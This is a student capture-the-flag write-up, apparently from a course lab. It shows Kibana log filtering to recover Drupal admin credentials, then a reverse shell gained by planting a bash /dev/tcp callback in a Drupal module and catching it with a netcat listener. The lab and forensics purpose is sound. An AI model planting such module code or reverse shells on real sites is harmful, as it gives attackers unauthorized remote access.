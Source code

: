     
## Task 2 -  Web access

We had access to the correct Drupal console but not the correct credentials to enter the admin console. The forensics evidence from Kibana contained over 87,000 hits; thus, some filtering was necessary to narrow the search. First, we thought that a great place to start looking for credentials was in the `http POST request` messages. When a user logs in or tries to log in, an http POST request is sent, and a successful or unsuccessful response is received. Then, after adding the filter `http.request.method: POST` we were left with 19 hits. 

When looking through some of them, we noticed that several of them tried to access the `user/login` page and thought that this filter might give us a narrow search. As seen below, adding the filter `http.request.headers.referer: http://10.13.37.4/user/login` left us with just three hits. 

 ![image](https://user-images.githubusercontent.com/72946914/167696514-2b4ac726-2db8-4f0f-b37b-3dca1585a008.png)

The attacker tried three different passwords, and most likely, his last attempt was the successful one. By checking the `http.response` message in this record, we see that the user was redirected to `http://10.13.374/user/1?check_logged_in=1`, indicating that the attempt was successful. 
![image](https://user-images.githubusercontent.com/72946914/167710984-476f3164-8e7f-4858-a15c-86fac3a04cf3.png)

Our thought was confirmed when entering the username *god* and password *password1* caused a successful login. 
![image](https://user-images.githubusercontent.com/72946914/164683204-efd1c930-bdf7-4b6b-931f-da415ef65e74.png)

Navigating to the user's profile information, we located the flag. 

![image](https://user-images.githubusercontent.com/72946914/167711169-60189d5c-6df1-491f-8c19-5738fe0c1425.png)

**`Flag: IKT449{admin_access=god}`**

## Task 3 - www-data

We already knew that we had to use the reverse shell technique to get interactive access to www-data, which could also be seen in the logs from Kibana. By investigating the hits from the previous task, we also saw that the Drupal version running at this site was Drupal 9. 

With a quick Google search at "drupal 9 reverse shell" we found several websites explaining the way forward for carrying out this attack. Several Drupal versions are vulnerable to remote code execution due to insecure use of `unserialize()` [(source)](https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/). One of the sites we found [(link)](https://www.sevenlayers.com/index.php/257-drupal-8-to-reverse-shell) provided us with a well-explained step-by-step guide which we benefitted from. 

The guide describes how one can exploit the use of modules in Drupal by inserting code into a `.module` file. At Drupal's website, we downloaded a random module compatible with Drupal 9, in this case, called *codefiler*. 

![image](https://user-images.githubusercontent.com/72946914/167477793-47ba477e-a9c9-4883-9b94-d996eb0385b1.png)


After unzipping the module, we added the following code line, with our designated IP address and the desired port number, to the file called `codefilter.module` : 

    exec("/bin/bash -c 'bash -i >& /dev/tcp/ip_address/portnumber 0>&1'");
![image](https://user-images.githubusercontent.com/70077872/167573750-8dca4946-dd94-4f2d-8923-ecbda7b62a48.png)

 At the same time, we started a port listener in a terminal window by executing the command `nc -nvlp port number. 


After uploading the module, enabling it and installing it, we got a shell to www-data. 

![image](https://user-images.githubusercontent.com/70077872/167573128-1848a4ee-8881-4bbb-96e2-9aabb47cfe50.png)

We found the flag in `www-data.txt`.

![image](https://user-images.githubusercontent.com/70077872/167573357-162e2f3f-67d6-414f-bfb7-b871ac042453.png)

**`Flag: IKT449{who_would_have_thought_adding_modules_is_bad}`**
